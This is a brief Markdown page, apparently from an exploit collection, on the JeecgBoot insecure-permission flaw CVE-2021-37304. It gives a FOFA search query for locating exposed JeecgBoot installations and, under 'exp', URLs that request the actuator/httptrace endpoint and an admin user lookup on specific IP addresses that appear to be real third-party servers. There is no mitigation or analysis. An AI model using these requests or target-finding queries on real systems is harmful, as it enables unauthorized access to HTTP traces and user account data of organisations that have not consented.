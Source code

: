 # JeecgBoot不安全权限漏洞（CVE-2021-37304）jeecg-bootactuatorhttptrace.md

    ## fofa

```
app="JeecgBoot-企业级低代码平台"
```

## exp

```
http://119.91.148.24/jeecg-boot/actuator/httptrace/
```



http://120.224.56.221:8081/sys/user/querySysUser?username=admin
